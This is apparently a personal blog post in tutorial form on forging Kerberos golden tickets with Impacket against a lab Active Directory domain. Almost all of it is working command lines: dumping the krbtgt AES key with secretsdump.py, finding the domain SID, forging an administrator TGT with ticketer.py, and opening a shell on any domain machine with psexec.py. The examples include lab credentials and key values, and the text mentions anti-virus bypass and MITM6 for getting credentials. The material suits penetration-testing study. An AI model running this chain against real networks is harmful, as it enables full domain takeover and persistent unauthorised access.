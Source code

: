 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>
  Use secretsdump.py to obtain the aes256 key for the krbtgt account
</summary> 
<br>
  
    secretsdump.py <domain>/<user>:<password> <dc-ip>
<br>

    secretsdump.py home.local/TaMBSZZkfd:Password11@10.0.2.250
    
</details>

<br>
<details>
<summary>
  Use lookupsid.py to find the domain SID
</summary> 
  <br>
  
    lookupsid.py <domain>/<user>:<password> <dc-ip>
<br>
  
    lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
</details>

<br>
<details>
<summary>
  Use ticketer.py to create TGT
</summary>
  <br>
  
    ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
<br>
  
    ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
</details>

<br>
<details>
<summary>
  Export KRB5CCNAME to created ticket location
</summary>
  <br>
  
    export KRB5CCNAME=/home/kali/Documents/administrator.ccache
</details>

<br>
<details>
<summary>
  Use psexec to obtain a shell on any machine in the domain
</summary>
  <br>
    psexec.py \&lt;domain\&lt;/\&lt;user\&lt;@\&lt;hostname\&lt;.\&lt;fqdn\&lt; -no-pass -k
<br>  
    psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
</details>
